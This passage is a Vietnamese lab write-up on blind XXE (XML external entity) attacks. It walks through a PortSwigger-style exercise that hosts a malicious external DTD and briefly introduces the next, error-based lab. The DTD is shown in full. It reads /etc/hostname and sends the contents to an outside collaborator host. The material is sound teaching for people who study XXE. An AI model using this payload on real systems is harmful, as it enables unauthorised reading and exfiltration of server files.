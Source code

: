 
---

### Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Thử thách này chúng ta sẽ khai thác lỗ hổng XXE bằng cách lưu trữ file DTD trên server mà chúng ta kiểm soát, sau đó gọi external DTD từ bên trong payload XXE in-band

DTD độc hại để lấy nội dung file /etc/hostname như sau

``` xml-dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://nmdcrtud1mhhvfp9ba4fu8brmis8gx.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD thực hiện các bước như sau:

+ Xác định một thực được gọi là `file`, chứa nội dung file /etc/hostname
+ Định nghĩa một thực thể XML được gọi là `eval` chứa một khai báo động của một thực thể tham số XML khác được gọi là `exfiltrate`
+ Thực thể exfiltrate sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của attacker có chứa giá trị của file trong chuỗi truy vấn URL
+ Sử dụng thực thể eval, thực thể này khiến việc khai báo động của thực thể exfiltrate được thực hiện
+ Sử dụng thực thể exfiltrate để giá trị của nó được đánh giá bằng yêu cầu URL

Sau đó lưu trữ DTD trên server exploit mà ứng dụng cung cấp, thông thường bằng cách tải lên máy chủ web của chúng ta

![image-20220521084322360](https://user-images.githubusercontent.com/68894302/169690462-56621fa6-c692-4a39-b6b2-d4d26101d583.png)

Sau đó gửi payload XXE trong POST /product/stock để thực thi XXE

![image-20220521084529996](https://user-images.githubusercontent.com/68894302/169690470-355889c5-1bca-4fb2-b3c6-bb884ca53e30.png)

Payload XXE này khai báo một thực thể tham số XML được gọi là `xxe` và sau đó sử dụng thực thể trong DTD. Nó sẽ khiến cho trình phân tích cú pháp của XML fetch cái external DTD được thực thi và file /etc/hostname được truyền đến máy chủ của chúng ta.

![image-20220521084750480](https://user-images.githubusercontent.com/68894302/169690476-83c5089a-5a8b-49ce-9485-e30ffa15b79d.png)



----

## Lab 6: Exploiting blind XXE to retrieve data via error messages

Bài này cách khai thác tương tự như lab bên trên (Exploiting blind XXE to exfiltrate data using a malicious external DTD). Nhưng lần này chúng ta sẽ lợi dụng việc không tồn tại của một file trong hệ thống từ đó cho thấy phản hồi lỗi được trả lại có bao gồm việc thực thi thực thể XML
